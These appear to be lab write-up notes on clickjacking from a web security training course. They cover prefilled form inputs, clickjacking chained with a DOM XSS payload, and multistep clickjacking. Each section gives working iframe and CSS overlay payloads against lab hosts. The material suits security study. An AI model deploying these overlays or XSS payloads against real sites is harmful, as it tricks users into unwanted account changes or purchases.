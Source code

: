 
## Clickjacking with prefilled form input

Some websites that require form completion and submission permit prepopulation of form inputs using GET parameters prior to submission. Other websites might require text before form submission. As GET values form part of the URL then the target URL can be modified to incorporate values of the attacker's choosing and the transparent "submit" button is overlaid on the decoy site as in the basic clickjacking example.

```html
<iframe src="https://0a70006c045af09ec363e38800b000dc.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

## Combining clickjacking with a DOM [XSS](https://portswigger.net/web-security/cross-site-scripting) attack

So far, we have looked at clickjacking as a self-contained attack. Historically, clickjacking has been used to perform behaviors such as boosting "likes" on a Facebook page. However, the true potency of clickjacking is revealed when it is used as a carrier for another attack such as a [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) attack. Implementation of this combined attack is relatively straightforward assuming that the attacker has first identified the XSS exploit. The XSS exploit is then combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack.

```html
<iframe src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Multistep clickjacking

Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes. Such attacks require considerable precision and care from the attacker perspective if they are to be effective and stealthy.

```html
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:330px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:285;
		left:225;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="https://0a9800400347af2ac0440c96007b00d4.web-security-academy.net/my-account"></iframe>
```